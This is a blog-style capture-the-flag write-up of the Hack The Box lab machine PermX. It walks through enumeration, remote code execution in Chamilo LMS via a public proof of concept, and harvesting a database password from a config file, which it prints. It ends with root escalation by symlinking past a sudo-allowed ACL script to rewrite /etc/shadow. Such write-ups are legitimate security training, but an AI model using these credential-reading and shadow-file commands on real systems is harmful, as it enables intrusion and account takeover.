 ```yaml
---
draft: false
title: "Hack the Box #3 - PermX w/o Metasploit"
date: 2024-07-30
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_3_permx.png
  alt: hack_the_box_3_permx.png
---
```

I've been messing with retired boxes on Hack the box and thought i would finally try my hand on one of the active ones!

## Enumeration

So as per lets start with an nmap scan.
```bash
# Nmap 7.94SVN scan initiated Sat Jul 27 09:05:17 2024 as: nmap -sV -p- -o nmap.scan 10.10.11.23
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Jul 27 09:06:05 2024 -- 1 IP address (1 host up) scanned in 48.48 seconds

```

In doing so we find ports 22, 80 open. Both versions seem secure so lets have a look at the website.

> sudo vim /etc/hosts

Adding [http://permx.htb/](http://permx.htb/) Looks like some elearning site. Inspecting the page source shows there is an underlying page but none of the urls load anything of interest.

```bash
/.htaccess           [33m (Status: 403)[0m [Size: 274]
/.htpasswd           [33m (Status: 403)[0m [Size: 274]
/.hta                [33m (Status: 403)[0m [Size: 274]
/css                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/css/>][0m
/img                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/img/>][0m
/index.html          [32m (Status: 200)[0m [Size: 36182]
/js                  [36m (Status: 301)[0m [Size: 303][34m [--> <http://permx.htb/js/>][0m
/lib                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/lib/>][0m
/server-status       [33m (Status: 403)[0m [Size: 274]
```

With some further subdirectory enumeration with gobuster We have some denied and an open directory but nothing of serious interest. Lets see if we have any subdomains of interest???

Weirdly is wasn’t getting much success with with the generic **ffuf** method of:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.permx.htb -mc 200
```

This doesn't seem right. It isn't even detecting the www root that I am connected to… After a little bit of research I found another way to make the query.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u <http://10.10.11.23> -H "Host: FUZZ.permx.htb" -mc 200
```

What is the difference you might ask? The former is sending out a request to DNS servers for what other subdomains it could connect to. Where the latter is sending requests directly to the IP Address im trying to hit…

And after running the command against the VHOST we get

**lms.permx.htb**

WHY IS IT ALWAYS DNS!!!!!!!

Lets add this bad boy to our hosts file and lets see what we got… Looks like we have a login page with the administrator mentioned at the bottom.

![LoginPage](https://i.imgur.com/7BQRrzZ.png#center)

+1 to email **admin@permx.htb** love you Davis Miller

## Exploitation 

In digging through the source to determine what version of Chamilo we are dealing with I could only determine **Chamilo 1** thinking it wouldn't get me to far without a specific version but google is a bountiful place with a simple **Chamilo 1 exploit** search we find a PoC put together by m3m0o [m3m0o/chamilo-lms-unauthenticated-rce](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) Thanks mate love you.

Downloading this and reviewing the exploit it can either check for the vulnerability, drop a webshell or a reverse shell using the exploit. Well I'm feeling vrevshelly today :D

![ReverseShell](https://i.imgur.com/GM5Qp5D.png#center)

Looks like we are **www-data** but we can still read the etc/passwd looks to be a single human user of mtz that's where our user flag will be… Lets start enumerating this box and see how we can get it.

In poking around we get this find an interesting file...
```bash
└─$ find / -type f -name "*config*" 2>/dev/null 
...
/var/www/chamilo/app/config/configuration.php
...

└─$ cat "/var/www/chamilo/app/config/configuration.php" | grep "db_user\\|db_pass"
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Great we have been able to acquire the database username and password.

Trying to login to the Chamilo portal the user doesn't work. Good. Lets try it with the user **mtz**.

```bash
└─$ ssh mtz@10.10.11.23
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
...
mtz@permx:~$ cat user.txt
==============USER_FLAG_STRING==============
```

I’m in and we got the flag… Now to escalate to root!

## Privilege Escalation 

Lets start by enumerating what processes can be run as superuser.
```bash
mtz@permx:~$ find / -perm -u=s -type f 2>/dev/null
...
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

There are some interesting ones at the bottom of this lookup. Digging into polkit, we are running version 0.105-33 and with a cursery search on exploit_db we find this bad boy [exploit-db](https://www.exploit-db.com/exploits/50011)

After running this a couple times however we have no success. The script is unable to create a user. Lets see what this user can run...

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run **[acl.sh](http://acl.sh)** as a sudo user without a password. Looking at the script is assigns permissions to a given target file but does restrict the user to only be able to run it on their home directory. We can’t edit this file but we can abuse the security check by creating a symbolic link to root.
```bash
mtz@permx:~$ ln -s / root # Create temp symbolic link
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow # GIB SHADOW FILE PERMS
mtz@permx:~$ vim /etc/shadow 
```

Here we can pull the hashed root password and crack it… or we can just overwrite it with mtz password then we can `su root` input mtz password and BAM!!!

```bash
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz# cat /root/root.txt
==============ROOT_FLAG_STRING==============
```

We got the root flag baby! And this [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/613) from hack the box. My smooth brain feels satisfied. I'm going to go touch some grass now :D

